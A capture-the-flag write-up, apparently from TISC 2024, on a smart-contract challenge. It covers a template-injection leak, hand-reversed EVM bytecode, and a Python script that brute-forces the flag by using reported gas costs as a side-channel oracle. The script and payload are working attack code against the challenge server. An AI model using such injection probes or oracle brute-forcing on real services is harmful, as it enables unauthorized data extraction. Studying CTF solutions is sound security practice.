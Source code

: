NOTE: This writeup is still WIP. Here are some notes I took while solving the challenge, as well as any solve script(s)

* Found ssti
	* leak response_data (`{{response_data}}`), get bytecode of contracts
* used ethervm.io/decompile to get decompilation & disassembly
* hand reversed AdminPanel contract from disassembly (cant decompile properly fsr)
	* Check that starts with `TISC{` and ends with `}`
	* deduce that flag is 17 characters total
	* Calculates `flag[4:] ^ (keccak256(0x6b35340a) << 0x98)`
	* It must be equal to the output of delegatecall for the function to return true
		* address: `calldata[0x24:0x44]`
		* arguments offset: `0x3c`
		* arguments length: `0x4`
		* return offset: `0x0`
		* return length: `0x20`
		* I assume this function is in the `Secret` contract, whose bytecode is not provided.
* look at decompilation of Setup contract
	* calls a function on another contract that I assume is the function in AdminPanel contract
* after many unsuccessful attempts, return to web stuff
* realised that the `gas` value is provided
* recall from previous googling that each opcode has a certain gas cost, hence total gas cost of a transaction is calculated based on what opcodes are executed
* we can use `gas` as an oracle (more opcodes are executed for success path, when flag check fails it ends early)
* write python script:

```python:s.py
import requests
from string import printable

template = list('{XXXXXXXXXXX}' + '{{response_data}}')

space = set(printable).difference('#{}%')

for x in range(1, 12):
    for c in space:
        payload = template[:]
        payload[x] = c
        resp = requests.post('http://chals.tisc24.ctf.sg:52416/submit',
                             data={'password': ''.join(payload)})
        search_for = "&#39;gas&#39;: "
        try:
            i = resp.text.index(search_for) + len(search_for)
            j = resp.text.index('}', i)
            gas = int(resp.text[i:j])
            if gas >= 33377:
                print(c, end='', flush=True)
                break
        except:
            print(resp.text)
            import sys
            sys.exit(1)
```

my notes (a bit disorganised) for setup contract reversing

```plaintext:setup.notes.txt
# 0x10A: A | B | C | D | E | val
    -> val == 1, $pc=A
# 0x127: A | B | C | D
    -> msg.data[C], $pc=A
# 0x14F: A | B | C | D | E | F
    -> E+C, $pc=A, memory[E+C]=0
# 0x17E: A | B | C | D
    -> C, $pc=A

unknown, 0, storage[0], (1 << 0xa0) - 1, 0, memory[0x40], 0
- 'stack base ptr' at memory[0x40], 32 bytes
- base[0x24] = arg0
- base[0x44] = storage[1] & ((1 << 0xa0) - 1) # mask last 20 bytes of storage
- base[0] = 0x44
- base[0x20] = base[0x20] & ((1 << 0xe0) - 1) | b'TISC'  # replace first 4 bytes with TISC
- storage[0] & ((1 << 0xa0) - 1)
- addr = func_012E(base, base+0x64)
- address(storage[0] & ((1 << 0xa0) - 1)).call(memory[base+0x64:base+0x64+0x44]) 

- storage[0] should be address of AdminPanel contract
- storage[1] should be address of Secret contract

# func_012E
- number = memory[base] (should be 0x44)
- i
while (true) {
  if (i >= number) {
    memory[base + 0x64 + number] = 0
    return base + 0x64 + number;
  }
  memory[base + 0x64 + i] = memory[base + i + 0x20] # copy 0x20 sized chunk
  i += 0x20
}
```

notes for adminpanel reverse:

```plaintext:adminpanel.notes.txt
- check that starts with `TISC{` and ends with `}`
- `Secret.getSecret() == user_input[4:] ^ (keccak256(0x6b35340a) << 0x98)`

all the following are in uint256 words (i.e. memory[0x60] means memory[0x60:0x60+0x20])
- memory[0x60] = 0x6b35340a
- memory[0x20] = 0x66fbf07e // parameter passed to secret call (the selector). Probably a getsecret function
- memory[0x40] = 0x1 if passes check else 0x0
- memory[0x0] = return value of secret call
```
